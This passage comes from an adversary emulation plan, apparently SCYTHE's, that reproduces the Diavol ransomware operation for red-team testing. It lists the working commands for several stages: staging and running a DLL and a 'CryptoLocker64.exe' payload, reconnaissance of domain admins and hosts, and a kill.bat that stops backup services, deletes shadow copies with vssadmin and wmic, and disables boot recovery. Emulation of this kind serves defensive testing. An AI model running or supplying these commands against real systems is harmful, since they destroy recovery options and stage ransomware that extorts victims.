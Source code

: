 ```
uploader --remotepath "%USERPROFILE%\Desktop\Diavol\adfind\adf.zip"
run cmd /c rmdir /Q /S "%USERPROFILE%\Desktop\Diavol\adfind"
downloader --src "VFS:/shared/threats/Diavol/uvvfvnnswte.dll" --dest "%USERPROFILE%\AppData\Local\Temp\uvvfvnnswte.dll"
run rundll32.exe "%USERPROFILE%\AppData\Local\Temp\uvvfvnnswte.dll",EnterDll
controller --shutdown
```

### Diavol Stage 3
After 18 hours, the following was executed:
```
loader --load run
run net group "Domain Admins" /domain
run whoami
run nslookup
run ipconfig /all
run systeminfo
run tasklist
run net group "Enterprise admins" /domain
run net localgroup administrators
run whoami /all
run net use
run query user
loader --load downloader
downloader --src "VFS:/shared/threats/Diavol/CryptoLocker64.exe" --dest "C:\ProgramData\CryptoLocker64.exe"
run C:\ProgramData\CryptoLocker64.exe
controller --shutdown
```

### Diavol Stage 4
Create kill.bat and upload to VFS:/shared/threats/Diavol/kill.bat
```
sc  config "Netbackup Legacy Network service" start= disabled
bcdedit  /set {default}
bcdedit  /set {default} recoveryenabled No 
vssadmin.exe  Delete Shadows /all /quiet
wmic.exe  Shadowcopy Delete
net  stop "Zoolz 2 Service" /y
net  stop "Veeam Backup Catalog Data Service" /y
net  stop "Symantec System Recovery" /y
net  stop "SQLsafe Filter Service" /y
net  stop "SQLsafe Backup Service" /y
net  stop "SQL Backups" /y
net  stop "Acronis VSS Provider" /y
net  stop VeeamDeploySvc /y
net  stop BackupExecVSSProvider /y
net  stop BackupExecRPCService /y
net  stop BackupExecManagementService /y
net  stop BackupExecJobEngine /y
net  stop BackupExecDeviceMediaService /y
```
Create README_FOR_DECRYPT.txt and upload to VFS:/shared/threats/Diavol/README_FOR_DECRYPT.txt
```
This is an adversary emulation by SCYTHE. If this were a real threat actor, this would be a ransom note and your data would have been stolen and encrypted.
```
In the shell:
```
loader --load downloader
downloader --src "VFS:/shared/threats/Diavol/kill.bat" --dest "%USERPROFILE%\Desktop\kill.bat"
loader --load run
run cmd /c "start %USERPROFILE%\kill.bat"
controller --shutdown
```